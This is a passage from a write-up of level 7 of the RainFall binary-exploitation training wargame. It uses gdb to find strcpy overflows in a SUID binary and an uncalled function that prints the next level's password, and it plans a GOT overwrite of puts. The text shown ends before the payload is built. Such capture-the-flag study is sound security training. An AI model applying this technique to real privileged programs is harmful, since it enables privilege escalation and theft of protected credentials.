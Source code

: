 # Level 7

## Vulnerability

Memory Corruption

## Context

We find a binary with owner level8 and SUID.
```
level7@RainFall:~$ ls -l
-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
```
It segfaults when run with 0 or 1 argument. It reponds to 2 or more arguments with "~".
```
level7@RainFall:~$ ./level7
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 anya drew
~~
level7@RainFall:~$ ./level7 anya drew win
~~
```

## Solution

Let's explore the binary using gdb. 
We can see here that ```main()``` makes 2 calls to ```strcpy()```, and one call to each ```fopen()``` and ```fgets()```.
```strcpy()``` is unsafe in that it has no length parameter, which leaves it vulnerable to buffer overflows and consequent memory corruption. 
```
level7@RainFall:~$ gdb -q level7
(gdb) disas main
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
```
Let's take a deeper look at the ```fopen()``` and ```fgets()``` parameters.
It looks like it opens the file with the password we're looking for, and saves it in ```c```!
It then does nothing with ```c```.
```
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) x/s 0x8049960
0x8049960 <c>:	 ""
```
Let's see if that's everything. 
We can see a function ```m()``` that is never called. 
This function prints ```time()``` and the variable ```c```!
```
(gdb) info function
All defined functions:
[...]
0x080484f4  m
[...]
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave
   0x08048520 <+44>:	ret
End of assembler dump.
```
Sooo the exploit here is to call ```m()``` by overwriting ```puts()``` in the GOT... and thus print ```c``` (and the password)!

Lets locate the addresses of ```m()``` and ```puts()```.
We saw earlier in ```(gdb) info functions``` the address of ```m()``` is 0x080484f4.
We saw earlier in ```(gdb) disas main```the address of ```puts()``` in the PLT is 0x8048400, but that's just a pointer to another memory address. Lets see if we can get its GOT address... it's 0x8049928.
```
(gdb) x/i 0x8048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```



